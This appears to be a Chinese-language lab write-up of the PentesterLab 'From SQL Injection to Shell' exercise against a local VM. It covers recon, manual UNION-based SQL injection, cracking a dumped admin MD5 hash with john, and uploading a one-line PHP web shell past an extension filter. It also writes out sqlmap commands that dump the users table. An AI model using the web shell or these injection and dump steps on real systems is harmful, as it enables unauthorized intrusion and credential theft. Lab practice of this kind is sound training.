# From SQL Injection to Shell

## 攻击主机与被注入主机网络情况
### 攻击主机



### 被注入主机



### 其二者网络联通



## 收集web应用及其使用技术的信息

### nmap扫描

- 只有80端口和22端口开放

    

###  检查HTTP响应头信息

#### 连接服务器80端口
`telnet10.0.2.19 80`

#### 发出HTTP请求

`GET / HTTP/1.1`

`Host: 10.0.2.19`

#### 服务器返回HTTP头信息

- 返回信息

    

- 发出的HTTP请求有问题，但服务器还是返回了一些有用的信息，如服务器的版本和系统信息，并且说明服务器80端口处于打开状态，可通过http方式访问服务器

- 在攻击主机的浏览器中访问服务器的80端口，观察Burp Suite截获的信息,获悉PHP版本信息

    

#### 连接服务器443端口

- 连接出错，不可通过https方式访问服务器

    

### 检测远程服务器文件目录信息

1. 服务器文件目录信息

    

2. 服务器php脚本信息

    

## 探测利用SQL注入

### SQL注入探测

#### 创建如下表（以下部分为本地测试SQL注入）



1. 基于数字的探测

- 数据库中进行计算，可查询不允许信息

    

- 查询条件永真，查取所有信息

    

- 失败尝试

    

2. 基于字符串的探测
- 闭合引号(加入奇数个`'`)

- 注释，减少查询条件

    - 注释掉id=3这一查询条件

    

    

### SQL注入利用

#### 使用UNION关键字

- 攻击者不能修改查询语句的开始，但可以使用union来控制结束，并查询其他信息
- union前后查询属性列需相同
- 要点：猜union前面查询语句的查询列数
    - 增加union后查询的列数
    - 使用order by 语句，by后数字逐步增加

        

- 在已知查询列的情况下，查询额外信息

    - 新建表格imfo

        
    
    - union查询，imfo表中的信息可能并不希望被查询

        

### 检索服务器信息

1. 确定服务器中查询语句的列数，确定为4列
    
    

    

    

2. 服务器数据库版信息
    
    

3. 当前用户
    
    

4. 当前数据库 

    

5. 从information_schema中获取表及其列信息

    
    
    

6. 获取管理员用户名及其密码

    
    
    - hash值输出为32个字符128比特，猜测散列算法为MD5
    - 在线破解

        
    - john破解

        

        - 由于之前对改哈希值进行过破解，再次破解并不会有输出，搜索得知john会将已破解过的哈希值的结果保存在john.pot文件中，下次就不用再次破解，直接从该文件中读取就好了，查看john.pot文件

        

### 代码执行

- 获取用户名密码后登录

- 创建一个运行命令行的PHP脚本,sql.php

    `  <?php system($_GET['cmd']);?> `
- 上传.php文件失败

    
    
    

- 修改后缀名后上传成功

    

- 确定上传脚本的位置，以便访问

    

- 访问上传文件，执行命令

    - 查看服务器内核信息

    

    - 系统用户列表

    

    - 当前目录

        - 这里有一个不太正常的现象，shell.php3已经被我删除，前面的文件列表中并没有，但是还存在当前目录中

        

# sqlmap自动注入
- 找到sql注入点及服务器信息

    

- 找出服务器中的数据库
    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" --dbs`

    - 

- 找到对应数据库中的表

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" --tables`

    
    
    

- 列出指定表的字段

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" -T users --columns`

    

- 爆破指定的字段

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" -T users -C "id,login,password" --dump`

    - 
    

    

## 参考
[wfuzz | penetration testing tools](https://tools.kali.org/web-applications/wfuzz)

[SQL注入常见攻击方式](https://blog.csdn.net/github_36032947/article/details/78442189)

[Kali下使用SQLmap工具对网站进行渗透测试检测](https://www.exehack.net/4955.html)

[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

